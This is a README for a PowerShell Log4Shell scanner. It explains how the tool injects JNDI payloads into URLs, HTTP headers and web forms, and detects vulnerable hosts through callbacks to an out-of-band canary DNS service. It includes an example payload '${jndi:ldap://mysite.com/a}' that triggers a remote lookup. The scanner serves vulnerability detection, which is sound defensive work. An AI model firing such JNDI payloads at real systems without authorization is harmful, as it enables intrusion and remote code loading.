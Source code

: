# Invoke-Log4ShellScanner
Powershell module for Log4Shell

### Usage:

>_PS>. .Invoke-Log4ShellScanner.ps1_  
>_PS>Invoke-Log4ShellScanner -Uri [sites file] -CanaryTokenDNS [canary token/ custom IP/DNS] -Headers [headers file] -Forms -Quick_  
>_PS>Invoke-Log4ShellFastScan -Uri [sites_file] -CanaryTokenDNS [canary token/ custom IP/DNS]_  
>_PS>Invoke-Log4ShellCheckForms -Uri [url_address] -Payload_  

> * _-Uri_ - file that contains URLs to scan (https://example.com example in example-sites.txt)
> * _-CanaryTokenDNS_ - IP address or domain name of OOB service which provide us the logs
> * _-Headers_ - file that contains headers to test (all-headers.txt)
> * _-Forms_ - switch to enable forms checking [OPTIONAL]
> * _-Quick_ - switch to provide fast scan (only 2 payloads are being tested) [OPTIONAL]  
> * _-Payload_ - payload parameter (eg ${jndi:ldap://mysite.com/a})  

### Description  
The Invoke-Log4ShellScanner is a powershell script that provides 3 functions:  
1) _Invoke-Log4ShellScanner_  
The most advanced scan can test provided site pool for obfuscated payloads by sending GET,POST and optionally forms. The payload is placed inside the URI, choosen Headers and arguments of POST method and GET URI.  
2) _Invoke-Log4ShellFastScan_  
The simplest scan that uses basic payload and one obfuscated. Payload is placed inside the URI, parameter for GET method and "User-Agent" header.  
4) _Invoke-Log4ShellCheckForms_  
The function which perform checking the site (one URL) for forms and then placing the payload into the forms and send POST.  

The example files: _all-headers.txt, example-sites.txt_

# TODOS:  
[ ] The scanner cant crawl or spidering the site  
[ ] There are issues with some forms  
[ ] Port Scannner and possibilities to scan FTP/SQL and other potential services will be good.  
